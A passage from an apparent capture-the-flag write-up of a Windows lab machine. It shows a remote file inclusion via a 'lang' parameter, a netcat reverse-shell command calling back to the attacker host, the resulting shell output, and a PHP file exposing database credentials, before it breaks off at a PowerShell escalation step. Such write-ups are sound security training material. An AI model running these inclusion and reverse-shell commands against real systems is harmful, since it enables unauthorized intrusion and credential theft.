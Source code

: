 

To get a shell, I'll just include a command to run `nc64.exe` from the
same Samba share:



    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443'



And I get a callback:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57204.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\inetpub\wwwroot\blog>whoami
    whoami
    nt authority\iusr



## Priv: iusr --\> Chris

### Enumeration

Looking around, there are creds for the database in the PHP:



    C:\inetpub\wwwroot\user>type db.php
    type db.php
    <?php
    // Enter your Host, username, password, database below.
    // I left password empty because i do not set password on localhost.
    $con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
    // Check connection
    if (mysqli_connect_errno())
      {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
      }
    ?>



### Runas

I know the other user on the box is Chris from the `\users\` directory,
so I'll try to run as them using PowerShell. First I'll open PowerShell:

